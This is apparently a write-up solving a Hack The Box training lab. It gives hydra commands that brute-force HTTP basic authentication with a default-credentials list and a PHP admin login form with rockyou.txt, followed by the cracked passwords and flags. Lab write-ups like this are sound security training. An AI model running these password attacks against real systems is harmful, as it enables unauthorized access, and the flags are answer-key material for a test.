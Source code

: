 # Skills Assessment - Website

Our customer requested an additional black box penetration test for another host on its network. After our host and port scans, we discovered just one single TCP port open. Since we've already found weak credentials on the other host, the new host may be vulnerable to the same vulnerability type. We should consider different wordlists as well during our engagement.

**Questions**

When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.

```bash
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.251.235 -s 57805 http-get /   
#[57805][http-get] host: 83.136.251.235   login: user   password: password
HTB{4lw4y5_ch4n63_d3f4ul7_p455w0rd5}
```

Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 83.136.251.235 -s 57805 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'" -t 64 
#[57805][http-post-form] host: 83.136.251.235   login: user   password: harrypotter
HTB{c0mm0n_p455w0rd5_w1ll_4lw4y5_b3_h4ck3d!} 
```
